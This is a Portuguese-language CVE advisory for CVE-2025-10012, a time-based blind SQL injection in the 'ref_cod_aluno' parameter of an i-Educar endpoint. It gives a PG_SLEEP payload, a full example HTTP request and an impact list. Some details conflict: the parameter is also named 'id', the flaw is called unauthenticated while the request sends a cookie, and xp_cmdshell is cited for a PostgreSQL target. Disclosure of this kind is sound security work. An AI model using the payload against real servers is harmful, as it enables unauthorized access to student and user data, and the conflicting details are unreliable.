


## CVE-2025-10012: Vulnerabilidade de Injeção SQL (Blind Time-Based) no parâmetro `ref_cod_aluno` do Endpoint `educar_historico_escolar_lst.php`

> *Publicação CVE: https://www.cve.org/CVERecord?id=CVE-2025-10012*

## Resumo

<p style="text-align: justify;">Uma vulnerabilidade de injeção SQL foi descoberta no parâmetro <code>ref_cod_aluno</code> do endpoint <code>educar_historico_escolar_lst.php</code>. Esse problema permite que qualquer invasor não autenticado injete consultas SQL arbitrárias, potencialmente levando a acesso não autorizado aos dados ou exploração adicional, dependendo da configuração do banco de dados.</p>

## Detalhes

<p style="text-align: justify;">O aplicativo não consegue sanitizar adequadamente a entrada fornecida pelo usuário no parâmetro <code>ref_cod_aluno</code>. Como resultado, payloads SQL especialmente criados são interpretados diretamente pelo banco de dados de back-end.</p>

## PoC

Endpoint Vulnerável: `educar_historico_escolar_lst.php`

Parâmetro: `id`

### Payload:

```terminal
AND 6986=(SELECT 6986 FROM PG_SLEEP(5))
```

#### Exemplo de Requisição

```terminal
GET /intranet/educar_historico_escolar_lst.php?ref_cod_aluno=206+AND+6986=(SELECT+6986+FROM+PG_SLEEP(5)) HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```

<p style="text-align: justify;">Este payload introduz um atraso de tempo, demonstrando a capacidade de executar consultas SQL arbitrárias.</p>





<p style="text-align: justify;">Observe o atraso de tempo na resposta do servidor, indicando a execução bem-sucedida do payload SQL.</p>

## Impacto

<p style="text-align: justify;">
  <ul>
    <li>Acesso não autorizado a dados confidenciais (por exemplo, usuários, senhas, registros).</li>
    <li>Enumeração de banco de dados (esquemas, tabelas, usuários, versões).</li>
    <li>Escalonamento para RCE dependendo da configuração do banco de dados (por exemplo, xp_cmdshell, UDFs).</li>
    <li>Comprometimento total do aplicativo se encadeado com outras vulnerabilidades.</li>
    <li>Esse problema afeta todos os usuários e ambientes, pois não requer autenticação e pode ser acessado por meio de um ponto de extremidade público.</li>
  </ul>
</p>

## Referência

***[https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-10012.md](https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-10012.md)***

## Encontrado por

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***